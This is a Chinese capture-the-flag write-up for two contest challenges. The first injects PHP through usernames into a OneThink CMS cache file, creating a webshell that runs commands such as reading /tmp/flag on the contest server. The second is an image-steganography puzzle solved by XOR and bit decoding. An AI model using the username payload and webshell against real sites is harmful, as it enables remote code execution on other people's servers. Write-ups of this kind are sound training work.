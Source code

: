 # i春秋“巅峰极客”网络安全技能挑战赛暨自主可控安全共测大赛 WP
## A Simple CMS
看到网站是OneThink做的，百度搜了下该CMS存在[漏洞](https://www.secpulse.com/archives/55862.html)，参考文章过程即可得到flag。但是其中的缓存文件做了修改，需要在本地复现一下，确定缓存文件名。
### 0x00
扫描网站敏感目录，发现www.zip文件：
![](./www.zip.png)

### 0x01
下载文件，在本地构建复现环境，首先删除`onethink/onethink/Application/Install/Data/install.lock`文件，然后访问`install.php`。

### 0x02
依次使用`%0a$a=$_GET[a];//` 和 <code>%0aecho &#96;$a&#96;;//</code> 注册账号，在依次登录账号，发现存在`Runtime/Temp/onethink_d403acece4ebce56a3a4237340fbbe70.php`文件，且文件内容如下：

```php
<?php
//000000000000a:4:{s:2:"u1";s:13:"Administrator";s:2:"u3";s:6:"test12";s:2:"u4";s:15:"
$a=$_GET[a];//";s:2:"u5";s:13:"
echo `$a`;//";}
?>
```
说明我们的一句话上传成功，文件名为`Runtime/Temp/onethink_d403acece4ebce56a3a4237340fbbe70.php`，该文件名不改变。

### 0x03
在服务器上重复步骤2，getshell

![](./getshell.png)

在tmp目录下获取flag：
```
http://ddd27aa160354000ba7eba4b621e08cd9274bde410054da1.game.ichunqiu.com/Runtime/Temp/onethink_d403acece4ebce56a3a4237340fbbe70.php?a=cat%20/tmp/flag
```

## loli
### 0x00
图片下载下来，根据题目hint（0xFF），想到使用0xFF异或整个文件，脚本如下：
```python
#!/usr/bin/env python
# coding=utf-8

def xor():
    with open('./1.png', 'rb') as f, open('xor.png', 'wb') as wf:
        for each in f.read():
            wf.write(chr(ord(each) ^ 0xff))


if __name__ == '__main__':
    xor()
```
得到文件`xor.png`。

### 0x01
使用二进制编辑器观察`xor.png`尾部，看到提示“black and white”，以及“IEND”标识，这是png的文件尾部，暗示该文件中隐藏了一个png文件。

![alt text](./end.png "png文件尾部")

使用 foremost 命令直接提取 （binwalk没卵用，感谢NaN师傅的提示Orz）：
```bash
foremost xor.png
ls ./output/png|grep png
00006777.png
```

### 0x02
观察png文件，可以看到色块分为11列，每列隔行的色块永远是黑色，这说明应该横向读取图片，而列中的横长条由8个小色块组成，显然其代表的是一个字节的数据。
按上述思路提取该信息：
```python
import matplotlib.image as mpimg  # mpimg 用于读取图片5:18

# png[y][x][rgb]

res_str = []
res = []


def readpng():
    png = mpimg.imread('./out.png')
    yy, xx, depth = png.shape
    for y in range(yy):
        if y % 2 == 0:
            for x in range(1, xx - 1, 9):
                _str = "0b" + str(int(png[y][x][0])) + str(int(png[y][x + 1][0])) + str(int(png[y][x + 2][0])) + str(int(png[y][x + 3][0])) + str(int(png[y][x + 4][0])) + str(int(png[y][x + 5][0])) + str(int(png[y][x + 6][0])) + str(int(png[y][x + 7][0]))
                res_str.append(_str)
                res.append(bin2hex(_str))
    print res_str
    with open('res.bin', 'wb') as f:
        for each in res:
            f.write(chr(each))


def bin2hex(_bin="0b101"):
    return int(_bin, 2) ^ 0xFF


if __name__ == '__main__':
    readpng()
    #  bin2hex("0b101")
```

生成的`res.bin`实际为文本文件，打开即可看到flag：
```bash
cat res.bin
Let's look this lyrics:The black sky hangs down,The bright stars follow,The insect winged insect flies,Who are you missing,The space star bursts into tears,The ground rose withers,The cold wind blows the cold wind to blow,So long as has you to accompany,The insect fly rests,A pair of pair only then beautiful,Did not fear darkness only fears brokenheartedly,No matter is tired,Also no matter four cardinal points.Emmmm,It looks like you don't care about this lyrics. Well, this is flag:flag{e0754197-e3ab-4d0d-b98f-96174c378a34}Let's look this lyric
```
